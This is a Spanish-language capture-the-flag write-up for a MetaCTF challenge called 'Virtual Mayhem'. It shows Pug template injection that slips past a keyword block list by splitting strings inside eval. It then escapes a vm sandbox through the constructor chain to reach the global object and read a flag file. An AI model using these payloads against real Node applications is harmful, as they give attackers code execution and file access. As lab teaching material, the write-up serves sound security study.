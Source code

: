 # Virtual Mayhem

![2025-03-25-105204_726x348_scrot](https://github.com/user-attachments/assets/378ff069-3d03-400f-9539-849ad3fbbe94)

Podemos insertar plantillas de PugJs y renderizarlas en la pagina, pero existen restricciones

No se pueden usar las siguientes expresiones regulares:

``` javascript
function sanitizeTemplate(template) {
  const forbiddenPatterns = [
    /require/i,
    /process/i,
    /Function/i,
    /global/i,
    /mainModule/i,
    /\bfs\b/i
  ];

  for (const pattern of forbiddenPatterns) {
    if (pattern.test(template)) {
      throw new Error('Forbidden keyword or pattern detected in template.');
    }
  }
```

Esto se puede esquivar separando las palabras y luego agregando el string a un eval

Por ejemplo, se pueden cargar nuevos modulos dinamicamente usando `global.process.mainModule.require('module')`, normalmente en PugJs una variable para el modulo se veria asi:

``` pugjs
- const fsModule = global.process.mainModule.require('fs')
```

Pero debido a que no podemos escrbir 'fs' ni 'mainModule' ni 'global' ni 'process' debemos separarlos y ejecutarlos con un eval:

``` pugjs
- const fm = eval("glb.proc" + "ess.mainMo" + "dule.requi"+ "re('f" + "s')")
```

Con eso podriamos leer la flag y mostrarla en pantalla:
``` pugjs
- const fm = eval("glb.proc" + "ess.mainMo" + "dule.requi"+ "re('f" + "s')")
- const flag = fm.readFileSync('./flag.txt','utf-8')
.p #{flag}
```

Pero no funciona porque la plantilla es ejecutada en una maquina virtual, sin acceso al entorno global:
``` javascript
    const compiledTemplate = pug.compile(userTemplate);
    const vm = new VM({ timeout: 1000, sandbox: { username: "Player" } });
    const output = vm.run(`\`${compiledTemplate({})}\``);
```

- En el contexto de la VM, this normalmente apunta al objeto sandbox proporcionado ({username: "Player"})
- Object.getPrototypeOf(this) obtiene el prototipo de objeto `Object.prototype`
- sandboxPrototype.constructor obtiene el constructor del objeto (normalmente `Object()`) porque los literales de objeto se crean con new Object()
- sandbox.Prototype.constructor.constructor obtiene el constructor del constructor (normalmente `Function()`)
- sandbox.Prototype.constructor.constructor('return this')() Ejecuta la funcion y devuelve this
- `Cuando una función se llama en modo no estricto, su this apunta al objeto global`

Y con eso tenemos acceso a `global`

![2025-03-22-151832_780x488_scrot](https://github.com/user-attachments/assets/d69bc16f-a7c1-4fae-9bd9-e70ee914d97e)

![2025-03-22-151842_766x545_scrot](https://github.com/user-attachments/assets/ddb44833-a944-4724-9395-360d30455f5e)

`MetaCTF{m4st3r1ng_pug_s4ndb0x_3sc4p3}`
